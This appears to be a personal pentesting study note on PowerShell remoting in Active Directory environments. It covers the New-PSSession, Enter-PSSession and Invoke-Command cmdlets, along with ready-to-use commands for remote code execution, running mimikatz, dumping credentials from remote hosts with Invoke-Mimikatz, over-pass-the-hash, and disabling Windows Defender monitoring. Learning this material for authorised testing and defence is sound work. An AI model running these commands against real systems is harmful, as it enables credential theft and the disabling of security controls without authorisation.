 ```yaml
---
title : "PSSession"
author: Bhaskar Pal / Modified Jesse Mooree
date: 2022-04-08 08:05:00 +0010
categories: [Blue-Teaming]
tags: [active-directory,remoting]
---
```


# <span style="color:lightblue">PowerShell Remoting</span>

* Think of it as psexec on steroids.
* You will found this increasingly used in enterprises. Enabled by default on Server 2012 onwards.
* You may need to enable remoting (**Enable-PSRemoting**) on a Desktop Windows machine, Admin privs are required to do that.
* You get elevated shell on remote system if admin creds are used to authenticate (which is the default setting).

> By default, enabling PowerShell remoting enables both an http and an https listener. The listeners run on default ports **5985 for http and 5986 for https**.
{: .prompt-info }

## <span style="color:lightgreen">Powershell Sessions</span>

In the table below, you can get a brief understanding of the working and usage of the cmdlets we will be using to perform attacks.

| Session Type | Cmdlets | Benifits |
| :--          | :--     | :--      |
| **One-to-One**   | 1. `New-PSSession`<br> 2. `Enter-PSSession` | 1. Interactive <br> 2. Runs in a new process (wsmprovhost) <br> 3. Is Stateful |
| **One-to-Many** | 1. `Invoke-Command` | 1. Non-interactive <br> 2. Executes commands parallely <br> 3. Execution is in disconnected sessions (v3) |

+ Use `-Credential` parameter to pass username/password

```powershell
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<computer-name>", $pass)
```

# <span style="color:lightblue">Enter/New-PSSession Remoting</span>


### <span style="color:#F1C232">1. Connect to a PS-Session of a remote user</span>
```powershell
Enter-PSSession -Computername <computer-name> 
```
### <span style="color:#F1C232">2. Execute Stateful commands using Enter-PSSession ( persistence )</span>
```powershell
$sess = New-PSSession -Computername <computer-name>
Enter-PSSession -Session $sess

[scorp.star.light.local]:PS> $proc = Get-Process
[scorp.star.light.local]:PS> exit

Enter-PSSession -Session $sess

[scorp.star.light.local]:PS> proc
Will list current process
```

# <span style="color:lightblue">Invoke-Command</span>

### <span style="color:#F1C232">1. Execute Stateful commands using Invoke-Command ( persistence )</span>

```powershell
$sess = New-PSSession -Computername <computer-name>
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

### <span style="color:#F1C232">2. Display allowed commands we can execute on remote machine</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -credential $cred -command {get-command}
Invoke-Command -computername <computer-name> -credential $cred -command {get-command}
Invoke-Command -computername <computer-name> -command {get-command}
```

### <span style="color:#F1C232">3. Write File using ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -ComputerName <computer-name> -ConfigurationName <fill-if-required> -Credential $cred -ScriptBlock {Set-Content -Path 'c:\temp.bat' -Value 'whoami'}
Invoke-Command -ComputerName <computer-name> -Credential $cred -ScriptBlock {Set-Content -Path 'c:\temp.bat' -Value 'whoami'}
Invoke-Command -ComputerName <computer-name> -ScriptBlock {Set-Content -Path 'c:\temp.bat' -Value 'whoami'}
```

### <span style="color:#F1C232">4. Edit file using ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -ScriptBlock {((cat "c:\mention\path\here" -Raw) -replace 'replacing-object','replaced-with-content') | set-content -path c:\mention\same\path\here} -credential $cred
Invoke-Command -computername <computer-name> -ScriptBlock {((cat "c:\mention\path\here" -Raw) -replace 'replacing-object','replaced-with-content') | set-content -path c:\mention\same\path\here} -credential $cred
Invoke-Command -computername <computer-name> -ScriptBlock {((cat "c:\mention\path\here" -Raw) -replace 'replacing-object','replaced-with-content') | set-content -path c:\mention\same\path\here}
```

### <span style="color:#F1C232">5. Command execution using command and ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -credential $cred -command {whoami}
Invoke-Command -computername <computer-name> -ConfigurationName <fill-if-required> -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername <computer-name> -command {whoami}
Invoke-Command -computername <computer-name> -ScriptBlock {whoami}
```

### <span style="color:#F1C232">6. File execution using ScriptBlock</span>

```powershell
# copy the command snippet with the parameters which are required
Invoke-Command -ComputerName <computer-name> -ConfigurationName <fill-if-required> -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
Invoke-Command -ComputerName <computer-name> -Credential $cred -ScriptBlock{"C:\temp\mimikatz.exe"}
Invoke-Command -ComputerName <computer-name> -ScriptBlock{"C:\temp\mimikatz.exe"}
```

### <span style="color:#F1C232">7. File execution using FilePath</span>

```powershell
Invoke-Command -computername <computer-name> -FilePath "C:\temp\mimikatz.exe"
```

### <span style="color:#F1C232">8. Language Mode</span>

```powershell
Invoke-Command -computername <computer-name> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}
```

> If the value of the LanguageMode is **Constrained**, then it will only allow built-in cmdlets execution
{: .prompt-tip }

## <span style="color:lightgreen">Execute locally loaded function on the remote machines</span>

Example : **Hello.ps1**

```powershell
function hello
{
Write-Output "Hello from the function"
}
```

### <span style="color:#F1C232">1. Now we can load the function on our machine</span>

```powershell
. .\Hello.ps1
```

### <span style="color:#F1C232">2. Now we can execute the locally loaded functions </span>

```powershell
Invoke-Command -ScriptBlock ${function:hello} -ComputerName <computer-name>
```

### <span style="color:#F1C232">3. In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way</span>

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list of servers>) -
ArgumentList
```

### <span style="color:#F1C232">4. Directly load function on the remote machines using FilePath</span>

```powershell
$sess = New-PSSession -Computername <computer-name>
Invoke-Command -FilePath "C:\temp\hello.ps1" -Session $sess
Enter-PSSession -Session $sess

[scorp.star.light.local]:PS> hello
Hello from the function
```

# <span style="color:lightblue">Invoke-Mimikatz</span>

* The script could be used to dump credentials, tickets and more using mimikatz with PowerShell without dropping the mimikatz exe to disk.
* It is very useful for passing and replaying hashes, tickets and for many exciting Active Directory attacks.
* Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.
* The script needs administrative privileges for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack. 

### <span style="color:#F1C232">1. Dump credentials on a local machine</span>

```powershell
Invoke-Mimikatz -DumpCreds
```

### <span style="color:#F1C232">2. Dump credentials on multiple remote machines</span>

```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

> Invoke-Mimikatz uses PowerShell remoting cmdlet **Invoke-Command** to do above.
{: .prompt-info }

### <span style="color:#F1C232">3. "Over pass the hash" generate tokens from hashes</span>
 
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'
```

### <span style="color:#F1C232">4. Create new session and dump hashes</span>

```powershell
#Create a session for remoting system
$sess = New-PSSession -ComputerName <computer-name>

#Bypass AMSI
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; whoami} -Session $sess

#Locally load mimikatz on your own system
Import-Module .\Invoke-Mimikatz.ps1

#Execute locally loaded functions remoting system
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz -command '"sekurlsa::logonpasswords"'} -Session $sess
```


If you find my notes interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/jessefmoore"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=jessefmoore&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>

